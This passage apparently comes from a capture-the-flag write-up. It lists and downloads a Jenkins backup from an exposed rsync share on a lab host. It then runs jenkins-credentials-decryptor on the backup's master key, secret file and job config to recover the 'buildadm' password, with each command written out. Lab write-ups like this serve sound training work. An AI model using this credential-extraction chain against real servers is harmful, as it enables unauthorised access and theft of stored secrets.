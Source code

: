```sh
rsync -av --list-only rsync://10.10.104.46/backups/
```

![rsync](rsync-jenkins.png)

The machine also has an exposed rsync, which contains a jenkins backup

```sh
rsync -av rsync://10.10.104.46/backups ./sdf
```

## Backup

### jenkins-credentials-decryptor

[![jenkins-creds-decryptor](jcd.png)](https://github.com/hoto/jenkins-credentials-decryptor)

https://github.com/hoto/jenkins-credentials-decryptor

Having access to the Jenkins backup using the `jenkins-credentials-decryptor tool`, I was able to decrypt the password for the user `buildadm`

```sh
nix profile install github:hoto/jenkins-credentials-decryptor
```

```sh
jenkins-credentials-decryptor \
       -m ./secrets/master.key \
       -s ./secrets/hudson.util.Secret \
       -c ./jobs/build/config.xml \
       -o json
```

